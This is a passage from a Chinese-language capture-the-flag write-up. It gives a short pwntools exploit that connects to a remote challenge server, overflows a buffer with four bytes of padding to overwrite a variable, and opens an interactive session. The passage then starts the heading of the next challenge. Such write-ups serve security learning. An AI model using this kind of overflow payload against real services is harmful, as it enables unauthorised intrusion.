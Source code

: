 ![](截图\18.1.png)

溢出覆盖，差0x4个字节，再加赋值

**exp**

```python
from pwn import*
p =remote('111.198.29.45','59680')
payload = "a"*0x4+p64(0x6E756161)
p.sendline(payload)
p.interactive()
```

执行结果

![](截图\18.3.png)

### 3.when_did_you_born
